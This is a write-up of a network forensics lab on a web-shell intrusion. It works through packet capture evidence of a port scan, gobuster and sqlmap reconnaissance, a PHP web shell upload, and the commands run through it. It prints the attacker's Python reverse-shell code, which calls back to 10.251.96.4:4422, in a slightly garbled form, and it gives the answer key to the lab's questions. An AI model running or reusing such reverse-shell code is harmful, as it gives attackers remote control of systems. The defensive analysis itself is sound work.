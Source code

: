 # Network Analysis – Web Shell

## Question 1

> What is the IP responsible for conducting the port scan activity?

* Port scanning is done for TCP ports.
* In order to see the port scan activity, we have to to go `Statistics > Conversations > TCP`.

<figure><img src="../.gitbook/assets/1 (72).png" alt=""><figcaption></figcaption></figure>

### Answer

```
10.251.96.4
```

##

## Question 2

> What is the port range scanned by the suspicious host?

* Let's sort `Port B` in an ascending order.

<figure><img src="../.gitbook/assets/2 (69).png" alt=""><figcaption></figcaption></figure>

* We can see that the last port scanned is 1024.

### Answer

```
1-1024
```

##

## Question 3

> What is the type of port scan conducted?

* We can filter the packets using the following filter:

```
ip.src == 10.251.96.4
```

<figure><img src="../.gitbook/assets/3 (64).png" alt=""><figcaption></figcaption></figure>

* The packets that we filtered are TCP packets with the SYN flag set.

### Answer

##

```
TCP SYN
```

## Question 4

> Two more tools were used to perform reconnaissance against open ports, what were they?

* The application/tool and its version can be identified using the `User-Agent` header.
* Using the following filter we can filter out packets sent to the suspicious agent and the User-Agent header.

```
ip.dst == 10.251.96.5 && http.user_agent
```

<figure><img src="../.gitbook/assets/4 (50).png" alt=""><figcaption></figcaption></figure>

* As we can see the first tool is GoBuster which is enumerating all the directories.
* In order to find the second tool, we have to scroll down until we find an encoded URI.

<figure><img src="../.gitbook/assets/5 (47).png" alt=""><figcaption></figcaption></figure>

* The second tool is SQLmap.

### Answer

```
gobuster 3.0.1, sqlmap 1.4.7
```

##

## Question 5

> What is the name of the php file through which the attacker uploaded a web shell?

* The HTTP POST method is used to upload data to a server. We can filter for these packets using the following filter:

```
http.request.method == POST
```

* Scrolling down, we can see a POST request made for a `upload.php` file.

<figure><img src="../.gitbook/assets/6 (44).png" alt=""><figcaption></figcaption></figure>

* The `Referer` header in the packet tells us the address from which a resource has been requested.

### Answer

```
editprofile.php
```

##

## Question 6

> What is the name of the web shell that the attacker uploaded?

* Let's follow the TCP stream for the same packet by going to `Follow > TCP Stream`.

<figure><img src="../.gitbook/assets/7 (34).png" alt=""><figcaption></figcaption></figure>

* As we can see the `Content-Disposition` header is set to `form-data` with the `dbfunctions.php` as the filename.

### Answer

```
dbfunctions.php
```

##

## Question 7

> What is the parameter used in the web shell for executing commands?

*   In the same TCP Stream we can see an if statement that takes `cmd` as the parameter.

    <figure><img src="../.gitbook/assets/7 (35).png" alt=""><figcaption></figcaption></figure>

### Answer

```
cmd
```

##

## Question 8

> What is the first command executed by the attacker?

* The commands to the uploaded file are sent using GET requests. We can use the following filter to separate out these packets.

```
http.request.method == GET
```

<figure><img src="../.gitbook/assets/8 (25).png" alt=""><figcaption></figcaption></figure>

* There were three commands executed: `id`, `python code` and `whoami`.

### Answer

```
id
```

##

## Question 9

> What is the type of shell connection the attacker obtains through command execution?

* We need to open the packet with the python script.

<figure><img src="../.gitbook/assets/9 (18).png" alt=""><figcaption></figcaption></figure>

* Once formatted, the script looks as follows:

```python
import socket, subprocess, os;
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect("10.251.96.4", 4422);
os.dup2(S.fileno(),0)
os.dup2(S.fileno(),0)
os.dup2(S.fileno(),0)
p = subprocess.call(["/bin/sh", "-i"])
```

* It creates a socket object `s` and connects to the specified IP address ("10.251.96.4") and port (4422).
* It then uses `subprocess.call` to execute the `/bin/sh` shell with the "-i" flag, which opens an interactive shell session, effectively allowing the user to control the remote server.
* This is inline with the characteristics of a reverse shell.

### Answer

<pre><code><strong>Reverse shell
</strong></code></pre>

##

## Question 10

> What is the port he uses for the shell connection?

* We saw that the reverse shell connects to port 4422.

### Answer

```
4422
```
